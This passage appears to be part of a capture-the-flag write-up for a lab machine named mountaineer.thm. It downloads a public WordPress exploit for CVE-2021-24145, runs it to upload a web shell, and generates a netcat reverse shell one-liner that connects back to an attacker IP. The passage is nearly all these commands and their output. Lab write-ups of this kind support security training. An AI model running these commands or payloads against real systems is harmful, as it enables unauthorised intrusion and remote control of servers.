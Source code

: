 `wget https://raw.githubusercontent.com/Hacker5preme/Exploits/refs/heads/main/Wordpress/CVE-2021-24145/exploit.py`

```bash
2024-10-29 05:25:50 (974 KB/s) - 'exploit.py' saved [22058/22058]
```

**For script source:**

[https://github.com/Hacker5preme/Exploits/blob/main/Wordpress/CVE-2021-24145/exploit.py](https://github.com/Hacker5preme/Exploits/blob/main/Wordpress/CVE-2021-24145/exploit.py)

`python3 exploit.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p '8O!Uv68eppgxFi4^'`

```bash
[+] Authentication successfull !

[+] Shell Uploaded to: http://mountaineer.thm:80/wordpress//wp-content/uploads/shell.php
```

![image.png](image%2010.png)

> **Reverse Shell Phase**
> 

`msfvenom -p cmd/unix/reverse_netcat lhost=10.2.37.37 lport=12244 R`

```bash
mkfifo /tmp/glzqy; nc 10.2.37.37 12244 0</tmp/glzqy | /bin/sh >/tmp/glzqy 2>&1; rm /tmp/glzqy
```
